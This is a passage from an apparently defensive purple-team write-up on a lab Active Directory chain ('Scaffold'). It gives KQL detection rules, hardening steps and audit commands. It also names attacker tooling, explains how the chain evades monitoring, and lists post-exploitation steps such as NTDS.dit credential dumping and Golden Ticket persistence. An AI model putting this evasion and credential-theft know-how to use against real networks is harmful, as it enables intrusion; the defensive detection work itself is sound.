#### Detection Engineering

* **Telemetry Gap Analysis:** Comprehensive visibility requires Windows Security Event IDs **5136**/**5137** (Directory Service Object Modified/Created - for `userAccountControl`, `groupType`, and Certificate Template object changes), **4886**/**4887**/**4888** (Certificate Services request/issuance/denial), **4728**/**4732**/**4756** (security-group membership changes), **4661**/**4662**/**4663** (object access), and **4624**/**4625** (logon events correlated by source IP across the password-spray phase). Network-layer visibility into Domain Controller egress (NetFlow or a host-based firewall log) is required to catch the XXE exfiltration step, since it produces no native Windows event. AD CS auditing must be explicitly enabled (`certutil -setreg CA\AuditFilter 127`) as it is not on by default.
* **Detection-as-Code (KQL):**

```kql
// Detect groupType / userAccountControl writes by non-Tier-0 accounts
// (catches the ACL-abuse quarantine-bypass phase of the Scaffold chain)
SecurityEvent
| where EventID == 5136
| where EventData has "groupType" or EventData has "userAccountControl"
| extend ObjectDN = tostring(parse_xml(EventData).EventData.Data[1])
| extend AttributeName = tostring(parse_xml(EventData).EventData.Data[4])
| extend AttributeValue = tostring(parse_xml(EventData).EventData.Data[5])
| extend SubjectUserName = tostring(parse_xml(EventData).EventData.Data[10])
| where SubjectUserName !in ("SYSTEM") and SubjectUserName !endswith "$"
// Exclude a maintained allowlist of Tier 0 / PKI-admin accounts here
| project TimeGenerated, SubjectUserName, ObjectDN, AttributeName, AttributeValue, Computer
```

```kql
// Detect AD CS issuance where the requester identity doesn't match the
// issued certificate's Subject - catches the PackagingCodeSigning /
// enrollee-supplied-subject forgery step
CertificateServicesEvent // adjust table name to your AD CS log ingestion pipeline
| where EventID in (4886, 4887)
| extend RequesterName = tostring(EventData.RequesterName)
| extend IssuedSubject = tostring(EventData.SubjectCommonName)
| where isnotempty(IssuedSubject)
| where RequesterName !contains IssuedSubject
    and not(RequesterName endswith "$" and IssuedSubject == "") // allow legitimate machine autoenrollment
| project TimeGenerated, RequesterName, IssuedSubject, CertificateTemplate, Computer
```

```kql
// Detect unexpected outbound connections from a Domain Controller
// (catches the MDT MonitorService XXE exfiltration step, which is
// otherwise invisible in native Windows event logs)
NetworkFlowLogs // adjust to your NDR/NetFlow ingestion table
| where SourceHostRole == "DomainController"
| where Direction == "Outbound"
| where DestinationIsPublicIP == true or DestinationIP !in (approved_egress_allowlist)
| summarize count(), make_set(DestinationPort) by SourceIP, DestinationIP, bin(TimeGenerated, 5m)
```

[Timeline Logs](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Scaffold/export.csv "Results")


* **Resilience Test:** An adversary may attempt to bypass detection of the ACL-abuse phase by performing attribute writes via raw LDAP/ADSI calls that blend with normal directory replication traffic, or by using DCSync to read (not write) sensitive attributes without triggering `5136`. *Countermeasure:* pair the `5136`/`5137` rules above with a standing Event ID **4662** rule specifically watching for the `DS-Replication-Get-Changes`/`DS-Replication-Get-Changes-All` extended rights being exercised by any account outside the designated replication/Tier-0 service accounts, and validate that AD CS auditing survives a CA service restart (a common way this telemetry silently goes dark).

#### Toolkit & Implementation

* **Automation:** `impacket` (`smbclient`, `lookupsid`, `dacledit`, `addcomputer`, `dcomexec`), `netexec`/`nxc` (LDAP modules, SMB spraying), `bloodhound-python` + BloodHound, `bloodyAD` (attribute/group writes), `certipy-ad` (template enumeration, enrollment, PKINIT auth), `pfx2john` + `John the Ripper`, `msfvenom`, `msibuild`, `osslsigncode`, `evil-winrm`, a custom XXE proof-of-concept script targeting the MDT MonitorService WCF endpoints.
* **OPSEC Analysis:** The use of an unauthenticated legacy service (MDT MonitorService) as the initial-access vector is a notably low-noise choice - it requires no valid credentials and generates no failed-logon telemetry. Routing lateral movement through DCOM rather than WinRM specifically evades environments that monitor WinRM HTTP listener connections (5985/5986) as their primary "remote execution" signal, while leaving RPC/DCOM comparatively under-instrumented. Forging a certificate via a legitimately-issued (not stolen) CA signature, rather than stealing an existing private key, avoids any certificate-revocation or private-key-theft detection entirely - from the CA's perspective, this is a normal, valid issuance.
* **Post-Exploitation:** Following SYSTEM-level compromise of the Domain Controller via the deploy engine, adversaries would typically run `secretsdump.py` against `NTDS.dit` for full credential-material extraction and establish persistence via a Golden Ticket (`krbtgt` hash) or by planting an additional AD CS template misconfiguration as a durable, reusable escalation path independent of any single compromised account.

#### Defensive Mechanism

* **Technical Hardening:**
  1. **Decommission or Isolate Legacy Deployment Services:** Restrict MDT MonitorService (ports 9800/9801) to management-network-only access, require authentication, and patch to a build not vulnerable to the XXE class of issue; disable DTD processing / external entity resolution in the underlying WCF XML parser regardless.
  2. **Tier Directory Attribute Delegations:** Audit every `GenericWrite`/`WriteProperty` grant on sensitive attributes (`userAccountControl`, `groupType`, `member`, `nTSecurityDescriptor`) and restrict them to Tier 0 identity-management accounts only; alert on any occurrence outside that allowlist.
  3. **Fix AD CS Template Misconfiguration:** Remove `Enrollee Supplies Subject = Yes` from any template enrollable by `Domain Computers`/`Authenticated Users`; require manager approval or restrict enrollment to a narrow, justified principal set for any template with Client Authentication or code-signing EKUs.
  4. **Reconcile Delegated OU Rights Against `MachineAccountQuota`:** Treat `MachineAccountQuota=0` as necessary but not sufficient - audit every OU for delegated `CreateChild` (Computer) rights that bypass it, and apply the same quota-equivalent restriction at the OU level.
  5. **Move Real Enforcement Server-Side:** Any workflow (like the packaging portal's approval checklist) that displays a human-reviewed control must have its claims independently re-verified by the backend at the point of consequence - never trust a client-supplied "this passed validation" flag.
* **Personnel Focus:** Enforce strict Active Directory Tiering (Tier 0, Tier 1, Tier 2) with explicit ownership of attribute-level delegation reviews, not just group-membership reviews - this chain shows that attribute writes (`groupType`, `userAccountControl`) are just as dangerous as group membership and are audited far less often. Train application/DevOps teams that own internal deployment pipelines to treat "the CA signed it" as necessary but not sufficient proof of trustworthy origin, since template misconfiguration can make CA signatures forgeable.

#### QUICK-ACTION PLAYBOOK

| Step | Objective | Technical Command / Logic |
| :----: | :--------------------------------------------- | :------------------------------------------------------- |
| 01 | **Audit Attribute-Level ACLs** | `Get-ADObject -SearchBase "OU=Scaffold,DC=scaffold,DC=htb" -Filter * \| ForEach-Object { (Get-Acl "AD:$($_.DistinguishedName)").Access } \| Where-Object {$_.ObjectType -match "groupType\|userAccountControl"}` |
| 02 | **Find Enrollee-Supplies-Subject Templates** | `certipy find -u <user> -p <pass> -dc-ip <dc> -vulnerable -stdout` - review any template flagged `ENROLLEE_SUPPLIES_SUBJECT: True` |
| 03 | **Reconcile OU Delegation vs. MachineAccountQuota** | `Get-ADOrganizationalUnit -Filter * \| ForEach-Object { Get-Acl "AD:$($_.DistinguishedName)" } \| Where-Object {$_.Access.ActiveDirectoryRights -match "CreateChild" -and $_.Access.ObjectType -eq "bf967a86-0de6-11d0-a285-00aa003049e2"}` |
| 04 | **Check for Unauthenticated Legacy Services** | Port-scan management subnets for 9800/9801 (MDT MonitorService) and any other legacy WCF/SOAP endpoints reachable without authentication |
| 05 | **Hunt for DC Egress Anomalies** | Query NetFlow/firewall logs for outbound connections sourced from Domain Controller IPs to non-approved external destinations |

*Compiled as part of a continuing purple-team review of the Scaffold engagement. Recommend validating each KQL/PowerShell query against your actual log schema (table and field names above are illustrative and will need adjustment to your SIEM's ingestion pipeline) before promoting to production alerting.*